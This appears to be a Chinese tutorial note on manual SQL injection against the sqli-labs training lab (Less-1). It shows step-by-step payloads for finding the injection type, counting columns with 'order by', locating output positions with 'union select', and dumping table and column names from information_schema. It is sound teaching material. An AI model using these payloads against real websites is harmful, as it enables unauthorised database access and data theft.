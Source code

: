 > eg:                              ---(sqli-labs)--Less1
> ?id=1,正常回显
> ?id=1 and 1=1 正常回显 
> ?id=1 and 1=2 正常回显
> -------------------判断为非数字型注入 
> ?id=1’		变化/报错 
> ?id=1’ --+		正常回显
> -------------------判断为字符型注入。闭合方式为单引号’ ’
> ---------------------------对不同闭合类型将 ' 改为对应闭合符号即可


### 判断字段数及回显位

#### 判断字段数

> eg:
> ?id=1' order by 1 --+
> ?id=1' order by 2 --+
> ?id=1' order by 3 --+
> ![](https://i.loli.net/2021/02/13/PYcbg56GCvoNQ2H.png)
> ?id=1' order by 4 --+
> ![](https://i.loli.net/2021/02/13/sV8G3k9mhRiIEaX.png)

说明字段数为3，

#### 判断回显位

> eg: 
> ?id=-1’ union select 1,2,3 --+
> ![](https://i.loli.net/2021/02/13/V9R1TWPtJSKjeNx.png)

2,3为回显位，因此在2、3的位置插入语句即可。

> eg:
>
> ```mysql
> ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
> ```
>
> 

####   一库三表四字段

很多教程讲的很详细，这里不做赘述，挂个当时记的结构图
![](https://i.loli.net/2021/02/13/VMmBU5JvkuAH9Oe.jpg)
select schema_name from information_schema.schemata
select table_name from information_schema.tables where table_schema='xxx'
select column_name from information_schema.columns where table_name='xxx'
select group_concat(xxx) from xxx

## 各种注入
